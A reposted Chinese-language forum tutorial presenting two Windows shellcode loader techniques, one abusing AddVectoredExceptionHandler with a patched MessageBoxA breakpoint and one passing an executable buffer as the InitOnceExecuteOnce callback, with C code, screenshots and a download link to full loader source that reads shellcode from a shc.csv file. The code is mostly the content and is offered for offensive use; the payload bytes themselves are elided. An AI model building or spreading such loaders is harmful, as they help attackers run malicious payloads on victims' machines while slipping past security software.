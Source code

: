 1.AddVectoredExceptionHandler也可以用来加载shellcode  
如下：

    
    
    unsigned char buf[]="......";  
      
    DWORD addr = (DWORD)GetProcAddress(GetModuleHandleA("User32.dll"), "MessageBoxA");  
      
    DWORD old = 0;  
    VirtualProtect(&buf, 1, PAGE_EXECUTE_READWRITE, &old);  
    VirtualProtect((LPVOID)addr, 1, PAGE_EXECUTE_READWRITE, &old);  
      
    *(UCHAR*)addr = 0xCC;  
    AddVectoredExceptionHandler(1, (PVECTORED_EXCEPTION_HANDLER)&buf);  
    MessageBoxA(0, "abc", "abc", 0);  
    

![](https://gitee.com/fuli009/images/raw/master/public/20230628094454.png)

2.InitOnceExecuteOnce  
利用这个api的第二个参数  
文档https://learn.microsoft.com/zh-cn/windows/win32/api/synchapi/nf-synchapi-
initonceexecuteonce  
使用如下

    
    
    unsigned char buf[]=".....";  
      
    DWORD old;  
    IMalloc* PIMalloc = NULL;  
    CoGetMalloc(MEMCTX_TASK, &PIMalloc);  
    void* buu = PIMalloc->Alloc(sizeof(buf));  
      
    RtlCopyMemory(buu, buf, sizeof(buf));  
    VirtualProtect(buu, PIMalloc->GetSize(buu), PAGE_EXECUTE_READWRITE, &old);  
      
    INIT_ONCE initonce;  
    LPVOID Context = NULL;  
    InitOnceExecuteOnce(&initonce, (PINIT_ONCE_FN)buu, 0, &Context);  
    

![](https://gitee.com/fuli009/images/raw/master/public/20230628094455.png)

最后  
源代码我传在了阿里云，链接  
scPass  
https://www.aliyundrive.com/s/Tf3chWByXKp  
提取码: 6h2f  
点击链接保存，或者复制本段内容，打开「阿里云盘」APP ，无需下载极速在线查看，视频原画倍速播放。

注意！！使用时shc.csv文件需和exe文件在同一目录！！  
文章可能有错的地方，希望师傅们能提出来！

  *   *   * 

    
    
    转载：https://forum.butian.net/share/2065作者：旺崽欢迎大家去关注作者

